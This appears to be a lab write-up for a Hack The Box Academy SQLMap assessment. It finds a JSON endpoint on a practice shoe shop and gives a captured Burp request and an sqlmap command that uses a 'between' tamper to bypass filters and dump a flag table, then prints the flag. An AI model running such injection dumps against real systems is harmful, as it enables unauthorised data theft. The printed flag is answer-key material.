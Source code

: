 You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

![Pasted image 20250204180837.png](../../../IMAGES/Pasted%20image%2020250204180837.png)

Once we go into the site, we can see the following:

![Pasted image 20250204180851.png](../../../IMAGES/Pasted%20image%2020250204180851.png)

Seems like a simple shoe shop, we have three interesting options we should take a look at: `Contact`, `Catalog`, `Blog`. We need to search around for some of them that injects code in the back-end server, let's take a look:

## Contact


![Pasted image 20250204181046.png](../../../IMAGES/Pasted%20image%2020250204181046.png)

In the contact site, we can see a form that we can fill in order to get in contact with the administrators. Nothing is off in this page, everything sets itself to `#`, so this is not what we're looking for.

## Blog
---

![Pasted image 20250204181231.png](../../../IMAGES/Pasted%20image%2020250204181231.png)

We have a search bar, but the same stuff happens as with the contact site, it gets set to `#`.

## Catalog
---

If we go to the catalog section, we can go into a `shop.html` site, if we inspect the source code for this page, we can see this interesting code:

```
<script>
 $(".add-to-cart").click(function(event) {
 event.preventDefault();

 let xhr = new XMLHttpRequest(); 
 let url = "action.php"; 
 
 xhr.open("POST", url, true); 
 xhr.setRequestHeader("Content-Type", "application/json"); 

 xhr.onreadystatechange = function () {
 if (xhr.readyState === 4 && xhr.status === 200) { 
 alert("Item added!!!")
 }
 };

 var data = JSON.stringify({ "id": 1 }); 
 xhr.send(data); 
 });
 </script>
```

The code basically acts whenever the `add-to-cart` button is clicked, the script posts a JSON object to the `action.php` endpoint.

We must capture the request with burp and use this command:

```
POST /action.php HTTP/1.1

Host: 94.237.53.230:33942

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Content-Length: 8

Origin: http://94.237.53.230:33942

Connection: keep-alive

Referer: http://94.237.53.230:33942/shop.html

Priority: u=0



{"id":1}
```

```
python3 sqlmap.py -r Add-To-Cart.txt --threads 10 --tamper=between -T final_flag --dump --batch
```

We get the following:

```
Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content |
+----+--------------------------+
| 1 | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
```

Flag is `HTB{n07_50_h4rd_r16h7?!}`


![Pasted image 20250204183428.png](../../../IMAGES/Pasted%20image%2020250204183428.png)
